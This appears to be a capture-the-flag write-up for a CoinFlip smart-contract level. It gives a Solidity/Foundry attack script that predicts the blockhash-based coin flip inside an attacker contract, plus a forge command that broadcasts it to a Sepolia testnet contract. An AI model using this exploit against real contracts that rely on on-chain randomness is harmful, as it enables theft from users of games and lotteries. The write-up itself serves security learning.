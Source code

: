 1. We can implement the same logic which is used to find the `side` of the coin in the `CoinFlip` contract.
2. I  wrote a player  contract which will perform the `flip()` calculation and sends the value to the `CoinFlip` contract.
3. Since the entire computaion in  both contracts happens in same transaction, the `block.hash` and `block.number` remains same in both contracts.
4. But we need to run the player script 10 times with a small amount of time delay. Because the last blockhash should not be equal to the current blockhash. So, running script at different times will change the block of the transaction.

**Level3Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level3.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract player{
      uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

     constructor(CoinFlip _coinflipInstance){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            _coinflipInstance.flip(side);

     } 

}
contract Level3Sol is Script{
    
    CoinFlip public level3 = CoinFlip(0x4d03165ffad46794329037004988b6De42AaC4DB);//pass the contract address deployed on the sepolia testnet
    function run() external{
        
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new player(level3);
        console.log("consecutive wins:",level3.consecutiveWins());
        vm.stopBroadcast();
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level3Solution.s.sol:Level3Sol --rpc-url $RPC_URL --broadcast
```
